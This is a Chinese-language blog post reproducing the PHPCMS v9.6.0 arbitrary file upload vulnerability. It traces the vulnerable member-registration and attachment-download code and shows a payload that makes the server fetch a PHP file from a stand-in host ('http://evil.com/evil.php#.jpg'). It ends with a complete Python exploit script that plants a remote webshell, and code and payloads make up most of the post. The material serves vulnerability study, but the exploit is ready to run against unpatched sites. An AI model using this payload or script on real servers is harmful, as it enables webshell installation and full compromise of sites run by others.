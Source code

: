 categories:
- cve复现
tags:
- cve复现
title: phpcms960任意文件上传复现
---
# phpcmsv9.6.0任意文件上传



## 利用条件

phpcms v9.6.0

开启用户注册功能

## 漏洞复现

根据网络上提供的poc进行漏洞复现:

```python
import re
import requests


def poc(url):
    u = '{}/index.php?m=member&c=index&a=register&siteid=1'.format(url)
    data = {
        'siteid': '1',
        'modelid': '1',
        'username': 'test',
        'password': 'testxx',
        'email': 'test@test.com',
        'info[content]': '<img src=http://url/shell.txt?.php#.jpg>',
        'dosubmit': '1',
    }
    rep = requests.post(u, data=data)

    shell = ''
    re_result = re.findall(r'&lt;img src=(.*)&gt', rep.content)
    if len(re_result):
        shell = re_result[0]
        print shell

```

漏洞的关键位置

` phpcms/modules/member/index.php `:135

```php
if($member_setting['choosemodel']) {
    require_once CACHE_MODEL_PATH.'member_input.class.php';
    require_once CACHE_MODEL_PATH.'member_update.class.php';
    $member_input = new member_input($userinfo['modelid']);		
    $_POST['info'] = array_map('new_html_special_chars',$_POST['info']);
    $user_model_info = $member_input->get($_POST['info']);				        				
}
```

`$_POST['info']`被`new_html_special_chars`处理后,直接作为参数传入`$member_input->get`

跟进去发现

```php
if(is_array($data)) {
			foreach($data as $field=>$value) {
				...
				$field = safe_replace($field);
				...
				$func = $this->fields[$field]['formtype'];
				if(method_exists($this, $func)) $value = $this->$func($field, $value);
	
				$info[$field] = $value;
			}
		}
```

`$this->$func($field, $value);`令人浮想联翩的命令,而`$func = $this->fields[$field]['formtype'];`,其中`$field`是我们可控的输入`new_html_special_chars($_POST['info']) as $field=>$value`

而`$this->fields[$field]['formtype'];`有以下取值,我们可以控制其执行某一函数

```php
$this->fields['catid']['formtype']="catid"
$this->fields['typeid']['formtype']="typeid"
$this->fields['title']['formtype']="title"
$this->fields['keywords']['formtype']="keyword"
$this->fields['copyfrom']['formtype']="copyfrom"
$this->fields['description']['formtype']="textarea"
$this->fields['updatetime']['formtype']="datetime"
$this->fields['content']['formtype']="editor"
$this->fields['thumb']['formtype']="image"
$this->fields['relation']['formtype']="omnipotent"
$this->fields['pages']['formtype']="pages"
$this->fields['inputtime']['formtype']="datetime"
$this->fields['posids']['formtype']="posid"
$this->fields['groupids_view']['formtype']="groupid"
$this->fields['voteid']['formtype']="omnipotent"
$this->fields['islink']['formtype']="islink"
$this->fields['url']['formtype']="text"
$this->fields['listorder']['formtype']="number"
$this->fields['template']['formtype']="template"
$this->fields['allow_comment']['formtype']="box"
$this->fields['status']['formtype']="box"
$this->fields['readpoint']['formtype']="readpoint"
$this->fields['username']['formtype']="text"
```

一个一个查看最后发现:

```php
	function editor($field, $value) {
		$setting = string2array($this->fields[$field]['setting']);
		$enablesaveimage = $setting['enablesaveimage'];
		$site_setting = string2array($this->site_config['setting']);
		$watermark_enable = intval($site_setting['watermark_enable']);
		$value = $this->attachment->download('content', $value,$watermark_enable);
		return $value;
	}
```

`editor`会调用download方法,其中`$field`和`$value`都是可控的

跟进`download`:

```php
function download($field, $value,$watermark = '0',$ext = 'gif|jpg|jpeg|bmp|png', $absurl = '', $basehref = '')
	{
		global $image_d;
		$this->att_db = pc_base::load_model('attachment_model');
		$upload_url = pc_base::load_config('system','upload_url');
		$this->field = $field;
		$dir = date('Y/md/');
		$uploadpath = $upload_url.$dir;
		$uploaddir = $this->upload_root.$dir;
		$string = new_stripslashes($value);
		if(!preg_match_all("/(href|src)=([\"|']?)([^ \"'>]+\.($ext))\\2/i", $string, $matches)) return $value;
		$remotefileurls = array();
		foreach($matches[3] as $matche)
		{
			if(strpos($matche, '://') === false) continue;
			dir_create($uploaddir);
			$remotefileurls[$matche] = $this->fillurl($matche, $absurl, $basehref);
		}
		unset($matches, $string);
		$remotefileurls = array_unique($remotefileurls);
		$oldpath = $newpath = array();
		foreach($remotefileurls as $k=>$file) {
			if(strpos($file, '://') === false || strpos($file, $upload_url) !== false) continue;
			$filename = fileext($file);
			$file_name = basename($file);
			$filename = $this->getname($filename);

			$newfile = $uploaddir.$filename;
			$upload_func = $this->upload_func;
			if($upload_func($file, $newfile)) {
				$oldpath[] = $k;
				$GLOBALS['downloadfiles'][] = $newpath[] = $uploadpath.$filename;
				@chmod($newfile, 0777);
				$fileext = fileext($filename);
				if($watermark){
					watermark($newfile, $newfile,$this->siteid);
				}
				$filepath = $dir.$filename;
				$downloadedfile = array('filename'=>$filename, 'filepath'=>$filepath, 'filesize'=>filesize($newfile), 'fileext'=>$fileext);
				$aid = $this->add($downloadedfile);
				$this->downloadedfiles[$aid] = $filepath;
			}
		}
		return str_replace($oldpath, $newpath, $value);
	}	
```

`download`用`$upload_func($file, $newfile)`来下载文件到服务器,而`$upload_func="copy"`

我们分析一下`download`函数,`$file`和`$newfile`经过的处理

`$file`是`$remotefileurls`中的值

```php
		$string = new_stripslashes($value);//反转义
		if(!preg_match_all("/(href|src)=([\"|']?)([^ \"'>]+\.($ext))\\2/i", $string, $matches)) return $value;
		$remotefileurls = array();
		foreach($matches[3] as $matche)
		{
			if(strpos($matche, '://') === false) continue;
			dir_create($uploaddir);
			$remotefileurls[$matche] = $this->fillurl($matche, '', '');
		}
```

跟进`$this->fillurl`,大概功能是,去掉url`#`后面的东西

```php
function fillurl($surl, $absurl, $basehref = '') {
		...
		$pos = strpos($surl,'#');
		if($pos>0) $surl = substr($surl,0,$pos);
		...
	}
```



构造`$value='src=http://evil.com/evil.php#.jpg'`



我们再看下`$newfile`

```php
$dir = date('Y/md/');
$uploaddir = $this->upload_root.$dir;
$filename = fileext($file);
$filename = $this->getname($filename);
$newfile = $uploaddir.$filename;
```

`$this->getname`:

```php
function getname($fileext){
		return date('Ymdhis').rand(100, 999).'.'.$fileext;
	}
```



webshell的地址为:` http://website/uploadfile/date('Y/md/')/date('Ymdhis').rand(100, 999).php`

最后payload为:

```
/index.php?m=member&c=index&a=register&siteid=1
post:
info[content]=<img src="http://evil.com/evil.php">
```



## 利用脚本



```python
import re
import requests
import random

def exp(url,evilurl="http://xxxxxxx/evil.php"):
    u = '{}/index.php?m=member&c=index&a=register&siteid=1'.format(url)
    data = {
        'siteid': '1',
        'modelid': '1',
        'username': 'test%d'%random.randint(1,999999),
        'password': 'testxx',
        'email': 'test%d@test.com'%random.randint(1,999999),
        'info[content]': 'src=%s#.jpg'%evilurl,
        'dosubmit': '1',
    }
    rep = requests.post(u, data=data)
    result=re.search(r"VALUES \('src=(.*)','\d*'\)",rep.text).groups()
    print(rep.text)
    print(result)


exp("http://127.0.0.1/cms/phpcms/9.6.0")
```

